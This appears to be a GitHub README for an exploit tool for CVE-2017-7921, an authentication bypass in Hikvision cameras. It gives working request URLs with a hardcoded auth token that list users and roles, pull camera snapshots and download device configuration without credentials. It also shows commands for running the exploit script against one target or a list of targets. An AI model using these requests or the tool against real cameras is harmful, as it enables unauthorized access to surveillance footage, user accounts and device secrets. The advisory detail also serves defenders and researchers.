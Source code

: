 # CVE-2017-7921 Exploit

An Improper Authentication issue was discovered in Hikvision  devices.

​    The improper authentication vulnerability occurs when an application does not adequately or correctly authenticate users.

​    This may allow a malicious user to escalate his or her privileges on the system and gain access to sensitive information.



​    https://seclists.org/fulldisclosure/2017/Sep/23



​    Vulnerability details:

​    \----------------------

​    Retrieve a list of all users and their roles:

​        http://camera.ip/Security/users?auth=YWRtaW46MTEK

​    Obtain a camera snapshot without authentication:

​        http://camera.ip/onvif-http/snapshot?auth=YWRtaW46MTEK

​    And worst of all, one can download camera configuration:

​        http://camera.ip/System/configurationFile?auth=YWRtaW46MTEK



## Install dependence

```python
python3 -m pip install -r requirements.txt
```

## Usage

```python3
python3 CVE_2017_7921_EXP.py -t xxx.xx.xx.xx run
python3 CVE_2017_7921_EXP.py -t ./targets.txt run
```

## Screenshot

![](./Screenshot.jpg)



